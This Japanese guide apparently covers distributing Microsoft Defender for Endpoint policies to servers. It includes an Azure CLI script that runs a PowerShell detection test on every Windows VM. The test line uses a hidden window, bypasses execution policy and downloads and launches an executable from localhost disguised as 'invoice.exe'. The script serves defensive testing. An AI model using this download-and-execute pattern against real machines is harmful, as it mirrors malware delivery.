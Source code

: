# MDE ポリシー配布

MDE 導入後、以下のような設定が必要です。

- PUA (望ましくないアプリからの保護)
- ASR (攻撃面の削減)
- 保護 3 兄弟（エクスプロイト保護、ネットワーク保護、Web 保護）
- Defender スキャン設定・ポリシー（対象外フォルダ・ファイル）

※ なお、クライアント PC の場合は Intune や Group Policy で設定しますが、サーバの場合には、ポリシー配布にいくつかの方法があります。

## MDE センサーの稼働状況の確認

以下のスクリプトにより MDE センサーの稼働状況を確認できます。（テスト扱いされるため MDfC コンソールには連携報告されません。MDE ポータル（httsp://security.microsoft.com/）にアクセスしてフィルタを切ると表示されます。）

```bash

TEMP_TARGET_SUBSCRIPTION_IDS=$SUBSCRIPTION_IDS
# 業務システム統制チーム／③ 構成変更の作業アカウントに切り替え
if ${FLAG_USE_SOD}; then if ${FLAG_USE_SOD_SP}; then TEMP_SP_NAME="sp_gov_change"; az login --service-principal --username ${SP_APP_IDS[${TEMP_SP_NAME}]} --password "${SP_PWDS[${TEMP_SP_NAME}]}" --tenant ${PRIMARY_DOMAIN_NAME} --allow-no-subscriptions; else az account clear; az login -u "user_gov_change@${PRIMARY_DOMAIN_NAME}" -p "${ADMIN_PASSWORD}"; fi; fi

for TEMP_SUBSCRIPTION_ID in $TEMP_TARGET_SUBSCRIPTION_IDS; do
az account set -s "${TEMP_SUBSCRIPTION_ID}"

TEMP_POWERSHELL_SCRIPT="powershell.exe -NoExit -ExecutionPolicy Bypass -WindowStyle Hidden \$ErrorActionPreference= 'silentlycontinue';(New-Object System.Net.WebClient).DownloadFile('http://127.0.0.1/1.exe', 'C:\\test-WDATP-test\\invoice.exe');Start-Process 'C:\\test-WDATP-test\\invoice.exe'"

for i in ${VDC_NUMBERS}; do
TEMP_LOCATION_NAME=${LOCATION_NAMES[$i]}
TEMP_LOCATION_PREFIX=${LOCATION_PREFIXS[$i]}

# 当該リージョンのリソースグループを拾って処理
for TEMP_RG_NAME in $(az group list --query "[?location == '${TEMP_LOCATION_NAME}' ].name" -o tsv); do

for TEMP_VM_NAME in $(az vm list --resource-group ${TEMP_RG_NAME} --query "[?storageProfile.osDisk.osType=='Windows'].name" -o tsv); do
  TEMP_RESOURCE_ID=$(az vm show --resource-group ${TEMP_RG_NAME} --name ${TEMP_VM_NAME} --query id -o tsv)

  echo "Check MDE is working on ${TEMP_VM_NAME}..."
  az rest --method post --url "https://management.azure.com${TEMP_RESOURCE_ID}/runCommand?api-version=2018-04-01" --headers "Content-Type=application/json" --body @- <<EOF
{
    "commandId": "RunPowerShellScript",
    "script": [
        "${TEMP_POWERSHELL_SCRIPT}"
    ]
}
EOF

done # TEMP_VM_NAME
done # TEMP_RG_NAME

done # TEMP_LOCATION
done # TEMP_SUBSCRIPTION

```

